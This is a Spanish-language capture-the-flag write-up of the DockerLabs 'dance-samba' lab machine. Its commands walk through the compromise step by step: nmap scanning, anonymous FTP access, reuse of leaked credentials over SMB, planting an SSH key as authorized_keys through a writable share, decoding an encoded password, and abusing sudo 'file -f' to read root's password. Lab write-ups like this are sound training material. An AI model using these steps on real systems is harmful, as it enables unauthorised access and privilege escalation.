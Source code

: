 # dance-samba

Maquina dance-samba de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![dock](../../maquina-dance-samba/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 13:56:49 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:4e:66:7d:e5:2e:cf:df:54:39:b2:08:a9:97:79:21 (ECDSA)
|_  256 92:bf:d3:b8:20:ac:76:08:5b:93:d7:69:ef:e7:59:e1 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-08-26T16:57:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.15 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 13:57:09 2024 -- 1 IP address (1 host up) scanned in 20.41 seconds

```

Vemos que el puerto `21`, `22`, `443` y `139` están abiertos. Sabiendo eso y que no está abierto el puerto 80, usaremos `ftp` para conectarnos de manera anonima, ya que nmap nos dice `ftp-anon: Anonymous FTP login allowed (FTP code 230)`. Para conectarlo simplemente ejecutamos

```css
ftp 172.17.0.2
```

ponemos de nombre `anonymous` y dejamos la contraseña vacia y ya estariamos dentro del ftp.

Haciendo un `ls` vemos lo siguiente:

```css
ftp> ls
229 Entering Extended Passive Mode (|||44635|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
226 Directory send OK.
ftp> 
```

por lo que ahora ponemos `get nota.txt` y salimos. En nuestra máquina atacante leemos el archivo .txt y vemos lo siguiente:

```css
I don't know what to do with Macarena, she's obsessed with donald.
```

Por lo que tenemos un posible usuario con contraseña: `macarena:donald`.

Luego de probar si nos sirve para el ssh sin éxito, ejecuto:

```css
smbmap -u macarena -p donald -H 172.17.0.2 
```

```css
Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	macarena                                          	READ, WRITE	
	IPC$                                              	NO ACCESS	IPC Service (f9bd436dad44 server (Samba, Ubuntu))
```

Como vemos hay una carpeta llamada "macarena", entonces ahora nos conectaremos con `smbclient` ejecutando:

```css
smbclient //172.17.0.2/macarena -U macarena -W WORKGROUP 
```

ponemos la contraseña y listo. Ahora como vemos estamos en la carpeta `/home/` de el usuario macarena, por lo que podriamos generar una clave ssh en nuestra maquina atacante y meterla en la máquina victima como `authorized_keys`.

## INTRUSION

Con toda la informacion que tenemos, iremos a nuestra máquina atacante y ejecutaremos `ssh-keygen`, esto nos generará una clave privada y una clave publica en nuestra carpeta `.ssh`. Volvemos al smb y creamos una carpeta `.ssh` en la maquina victima ejecutando `mkdir .ssh`, nos metemos y ejecutamos lo siguiente:

```css
put /home/kali/.ssh/id_rsa.pub ./authorized_keys
```

Una vez hecho eso, iremos a nuestra maquina atacante, a la carpeta ".ssh", y le daremos permisos de ejecución al archivo `id_rsa` ejecutando `chmod 600 id_rsa`. Ahora simplemente ejecutamos `ssh -i id_rsa macarena@172.17.0.2` y _ya estaremos dentro._

## ESCALADA DE PRIVILEGIOS

#### macarena

Siendo el usuario macarena, ejecutamos un `sudo -l` pero nos pide la contraseña, por lo que no podemos ejecutar nada sin contraseña. Luego de buscar un rato, veo un archivo llamado "hash" en `/home/secret/hash` y una password en `/opt/password.txt`, pero la password no la puedo leer. Si nos fijamos bien, el hash no es realmente un hash, sino mas parecido a un `base64` o `base32`, ya que si nos fijamos tiene esto:

```css
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
```

Por lo que iremos a la página [CyberChef](https://gchq.github.io/CyberChef/), y ponemos `from base32` y pegamos el "hash". Esto nos dejará un mensaje realmente en `base64`:

```css
c3VwZXJzZWN1cmVwYXNzd29yZA==
```

Como vemos, esto realmente si parece `base64` por lo que ejecutamos en la máquina un `echo "c3VwZXJzZWN1cmVwYXNzd29yZA==" | base64 -d` y listo, tendremos una contraseña que dice:

```css
supersecurepassword
```

Por lo que ahora si ejecutamos un `sudo -l` y vemos que si es la contraseña de macarena, y nos permite ejecutar el binario "File" como root, por lo que simplemente buscamos en [GTFOBins](https://gtfobins.github.io/) y buscamos el binario file. Como vemos, podemos leer archivos del sistema como root, por lo que simplemente ejecutaremos lo siguiente:

```css
LFILE=/opt/password.txt
```

y luego ejecutamos:

```css
sudo file -f $LFILE
```

```css
root:rooteable2
```

Como vemos, ya tenemos la contraseña de root, por lo que ponemos `su` y la contraseña y _ya seremos root_:

![root](../../maquina-dance-samba/imagenes/root.png)

Gracias por leer...
